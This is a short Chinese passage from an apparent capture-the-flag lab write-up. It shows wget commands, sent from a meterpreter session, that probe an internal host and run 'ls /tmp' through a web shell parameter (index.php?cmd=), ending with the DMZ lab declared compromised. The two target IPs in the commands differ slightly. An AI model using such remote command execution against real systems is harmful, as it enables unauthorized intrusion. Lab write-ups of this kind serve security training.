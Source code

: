 在8号会话下用`meterpreter shell`中直接访问IP地址来进行枚举测试。

```
# 尝试网络是否能访问
wget http://192.172.85.2
wget http://192.172.85.2 -O /tmp/result && cat /tmp/result

# 通过 index.php?cmd=ls /tmp 的方式执行
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```

![flag-5](img/flag-5.png)

提交以上得到的所有`flag`，搭建的`dmz`场景网络均已攻破。
